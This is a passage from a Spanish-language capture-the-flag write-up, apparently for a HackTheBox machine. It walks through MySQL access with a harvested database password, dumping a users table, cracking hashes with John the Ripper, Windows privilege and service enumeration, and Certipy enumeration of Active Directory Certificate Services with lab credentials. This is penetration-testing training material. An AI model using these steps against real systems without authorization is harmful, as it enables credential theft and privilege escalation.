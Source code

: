 ### 6.5 Acceso a MySQL

```powershell
# Navegar al directorio de MySQL
cd C:\xampp\mysql\bin

# Conectarse a MySQL
.\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD"

# Comandos MySQL para enumerar
mysql> show databases;
mysql> use certificate_webapp;
mysql> show tables;
mysql> select * from users;
mysql> exit
```

**Nota**: En MySQL podríamos encontrar hashes de contraseñas para crackear con John The Ripper:

```bash
# Si encontramos hashes, en Kali:
echo "hash_aqui" > mysql_hash.txt
john mysql_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=mysql-sha1
```

### 6.6 Enumeración de Privilegios

```powershell
# Verificar privilegios del usuario actual
whoami /priv
whoami /groups
whoami /all

# Buscar servicios vulnerables
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Verificar tareas programadas
schtasks /query /fo LIST /v

# Verificar certificados instalados
certutil -store my
certutil -store root
```

---

## 7. Escalación Horizontal - Lion.SK a ryan.k

### 7.1 Enumeración de Active Directory Certificate Services (ADCS)

```bash
# Desde Kali, usando Certipy
cd ~/Certipy

# Enumerar vulnerabilidades en ADCS
python3 certipy/entry.py find -u 'Lion.SK@CERTIFICATE.HTB' -p '!QAZ2wsx' -dc-ip 10.10.11.71 -stdout | tee certipy_enum.txt

# Analizar el output
grep -i "ESC" certipy_enum.txt
```
